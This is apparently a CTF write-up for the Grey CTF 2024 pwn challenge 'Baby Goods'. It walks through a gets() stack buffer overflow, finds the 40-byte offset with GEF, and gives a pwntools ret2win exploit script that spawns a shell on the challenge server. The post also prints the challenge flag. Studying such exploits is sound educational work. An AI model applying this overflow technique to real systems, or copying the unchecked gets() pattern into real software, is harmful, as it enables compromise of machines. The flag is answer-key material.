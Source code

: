 ```yaml
---
title: Grey CTF Quals 24 "Baby Goods"
date: 2024-04-24
description: Writeup for pwn/baby-goods from Grey CTF Quals 2024.
categories:
  - pwn
---
```


> I have opened a new shop for baby goods! Feel free to explore around :)
> 
> Author: uhg

TL;DR - Buffer overflow allowing an overwrite of the return address to a vulnerable function. Simple ret2win challenge.

<!-- more -->

## Investigating

We're given two different files, a binary to test locally on and a source. In the C source code we can see the following areas of interest:

```c title="babygoods.c" hl_lines="20-23"
...
int sub_15210123() {
	execve("/bin/sh", 0, 0);
}

int buildpram() {
	char buf[0x10];
	char size[4];
	int num;

	printf("\nChoose the size of the pram (1-5): ");
	fgets(size,4,stdin);
	size[strcspn(size, "\r\n")] = '\0';
	num = atoi(size);
	if (1 > num || 5 < num) {
		printf("\nInvalid size!\n");
		return 0;
	}

	printf("\nYour pram has been created! Give it a name: ");
	//buffer overflow! user can pop shell directly from here
	gets(buf);
	printf("\nNew pram %s of size %s has been created!\n", buf, size);
	return 0;
}
...
```

So obviously, as hinted by the comment, we need to do an overflow on the `#!c gets(buf)`.

???+ bug "`#!c gets()` Overflows"
	In C the `#!c gets()` function is a dangerous function that can lead to buffer overflows. It reads a line from `#!c stdin` and stores it in the buffer `#!c buf` until a newline character is found. The vulnerability is that it doesn't check the size of the buffer, so if the input is larger than the buffer, it will overflow into the stack.

However, even with this static code analysis, there are a few optimizations done during the compile process (such as padding and stack alignment) that can make it difficult to determine the exact size of the buffer. We don't need to go heavy with the analysis so we won't use Ghidra or IDA, but we can use a cyclic pattern to determine the exact size of the buffer. We need to find the offset to the return address to be able to overwrite it. We'll use GDB to do this:

```hl_lines="4-6"
$ gdb -q babygoods
Reading symbols from babygoods...
(No debugging symbols found in babygoods)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  run
...
Your pram has been created! Give it a name: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...

[#0] Id 1, Name: "babygoods", stopped 0x401328 in buildpram (), reason: SIGSEGV
```

Here, the program experiences a segmentation fault because it tries to access an unreachable address after the return address on the stack is overwritten. To determine the necessary offset to control the return address, which follows the stack pointer in the frame layout, we can use a GEF command to search for our input in RSP:

```
gef➤  pattern search $rsp
[+] Searching for '6661616161616161'/'6161616161616166' with period=8
[+] Found at offset 40 (little-endian search) likely
```

This shows that an offset of 40 bytes is required to reach the return address. Next, we need to find the address of the function we want to return to, in our case `#!c sub_15210123()`, we can do that in GDB as well:

```
gef➤  info fun sub_15210123
All functions matching regular expression "sub_15210123":

Non-debugging symbols:
0x0000000000401236  sub_15210123
```

## Exploiting

So we now know the address of `#!c sub_15210123()` is `#!c 0x401236`. Because of the architecture, we'll need to write it in little-endian format, but we can simply use the pwnlib library to do this for us, as shown below:

```python title="exploit.py"
from pwn import *

p = process('./babygoods')

p.sendlineafter('name: ', 'fbad') # First prompt (input doesn't matter)
p.sendlineafter('today?\n', '1')  # Menu prompt (input doesn't matter)
p.sendlineafter('(1-5): ', '1')   # Pram size prompt (input doesn't matter)

payload  = b'A' * 40     # fill stack until return address
payload += p64(0x401236) # address of sub_15210123()

p.sendlineafter('name: ', payload) # Send payload (1)
p.interactive() # Allows us to interact with the program
```

1. Payload sent will be `#!py b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00'`.

Testing it locally it works as expected, and we get a shell. We can replace `#!py p = process('./babygoods')` with `#!py p = remote('challs.nusgreyhats.org', 32345)` to connect to the remote server and get the flag.

```shell hl_lines="10"
$ python exploit.py
[+] Opening connection to challs.nusgreyhats.org on port 32345: Done
[*] Switching to interactive mode

New pram AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12 of size 1 has been created!
$ ls
flag.txt
run
$ cat flag.txt
grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}
```

Just like that, we get the flag.